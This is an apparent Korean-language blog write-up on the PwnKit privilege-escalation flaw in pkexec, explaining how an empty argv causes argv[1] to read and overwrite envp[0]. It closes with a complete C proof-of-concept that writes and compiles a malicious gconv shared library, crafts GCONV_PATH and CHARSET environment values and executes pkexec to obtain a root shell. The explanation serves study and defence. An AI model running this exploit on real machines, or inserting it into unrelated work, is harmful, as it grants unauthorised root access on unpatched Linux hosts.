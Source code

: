 pkexec는 for문을 사용하여 index 1번(i.e argv[1]) 부터 입력된 모든 인자에 대한 구문 분석을 시도합니다.
(if pkexec bash, argv[0] == pkexec, argv[1] == bash)
이때 pkexec에 값을 주지 않는다면 로직상 인덱스 값 n은 1로 고정이 되며 루프를 우회할 수 있게 됩니다.

- 값을 입력하지 않을시 n값을 1로 고정
- path = argv[1]에 대한 OOB read
- 코드내 변수 s는 argv[1]에 대한 OOB write

**그렇다면 argv[1]은 무엇을 가리키는 것일까요?**
이를 알기 위해서는 pkexec가 동작할때 syscall하는 execve()를 살펴보아야 합니다.
새 프로세스를 시작할때 커널은 모든 명령 인수를 포함하는 배열(argv), 환경 변수를 포함하는 배열(envp), 인수 수를 나타내는 정수 값(argc)을 생성합니다.

```
|---------+---------+-----+------------|---------+---------+-----+------------|
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] |
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------|
     V         V                V           V         V                V
 "program" "-option"           NULL      "value" "PATH=name"          NULL

```

메모리를 보면 매개 변수 배열과 환경 변수 배열은 연속적으로 배치됩니다.
이때, argc가 null이면 argv[1]은 OOB가 발생해 연속적으로 위치한 메모리인 envp[0]을 가리키게 됩니다.

- argv[1] = envp[0] = "value"
- g_find_program_in_path("value"), PATH 환경변수의 디렉터리에서 "value"라는 실행 파일 검색
- argv[1] = envp[0] = path, 실행파일이 검색될 경우 파일을 경로 반환

즉, argv[1]이 메모리상 환경변수의 첫번째 값을 가리키며 해당 값을 덮어쓰는 문제가 발생하는 것입니다.

### 개념증명

다음 코드는 Pwnkit LPE 취약점을 익스할때 사용하는 poc 코드입니다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
	"#include <stdio.h>\\n"
	"#include <stdlib.h>\\n"
	"#include <unistd.h>\\n\\n"
	"void gconv() {}\\n"
	"void gconv_init() {\\n"
	"	setuid(0); setgid(0);\\n"
	"	seteuid(0); setegid(0);\\n"
	"	system(\\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\\");\\n"
	"	exit(0);\\n"
	"}";

int main(int argc, char *argv[]) {
    FILE *fp;
    system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
    system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
    fp = fopen("pwnkit/pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
    char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL};
    execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}

```
